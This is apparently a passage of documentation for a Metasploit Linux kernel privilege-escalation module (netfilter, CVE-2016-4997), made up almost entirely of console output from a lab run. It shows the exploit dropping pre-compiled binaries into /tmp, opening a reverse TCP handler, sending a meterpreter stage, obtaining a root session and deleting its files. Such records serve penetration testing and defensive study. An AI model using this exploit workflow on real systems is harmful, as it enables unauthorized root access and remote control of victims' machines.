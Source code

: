     meterpreter > sysinfo
    Computer     : ubuntu
    OS           : Linux ubuntu 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:33:37 UTC 2016 (x86_64)
    Architecture : x86_64
    Meterpreter  : x86/linux
    meterpreter > getuid
    Server username: uid=0, gid=0, euid=0, egid=0, suid=0, sgid=0

#### Escalate w/ pre-compiled binaries

    msf exploit(netfilter_priv_esc_ipv4) > exploit
    
    [*] Started reverse TCP handler on 192.168.2.117:4444 
    [*] Checking if 32bit C libraries, gcc-multilib, and gcc are installed
    [-] libc6-dev-i386 is not installed.  Compiling will fail.
    [-] gcc-multilib is not installed.  Compiling will fail.
    [-] gcc is not installed.  Compiling will fail.
    [*] Dropping pre-compiled exploit on system
    [*] Checking if ip_tables is loaded in kernel
    [+] ip_tables.ko is loaded
    [*] Checking if shem or sham are installed
    [+] shem and sham not present.
    [*] Max line length is 65537
    [*] Writing 7820 bytes in 1 chunks of 21701 bytes (octal-encoded), using printf
    [*] Executing /tmp/8lQZGJdL, may take around 35s to finish.  Watching for /tmp/okDjTFSS to be created.
    [*] Waited 0s so far
    [*] Waited 10s so far
    [*] Waited 20s so far
    [*] Waited 30s so far
    [+] desc finished, env ready.
    [*] Writing payload to /tmp/2016_4997_payload
    [*] Max line length is 65537
    [*] Writing 155 bytes in 1 chunks of 455 bytes (octal-encoded), using printf
    [*] Writing pwn executable to /tmp/nOO6sYqi
    [*] Max line length is 65537
    [*] Writing 8456 bytes in 1 chunks of 22023 bytes (octal-encoded), using printf
    [*] Transmitting intermediate stager for over-sized stage...(105 bytes)
    [*] Sending stage (1495599 bytes) to 192.168.2.137
    [*] Meterpreter session 2 opened (192.168.2.117:4444 -> 192.168.2.137:46778) at 2016-09-24 21:24:22 -0400
    [+] Deleted /tmp/okDjTFSS
    [+] Deleted /tmp/2016_4997_payload
    [+] Deleted /tmp/nOO6sYqi
    
    meterpreter > sysinfo
    Computer     : ubuntu
    OS           : Linux ubuntu 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:33:37 UTC 2016 (x86_64)
    Architecture : x86_64
    Meterpreter  : x86/linux
    meterpreter > getuid
    Server username: uid=0, gid=0, euid=0, egid=0, suid=0, sgid=0
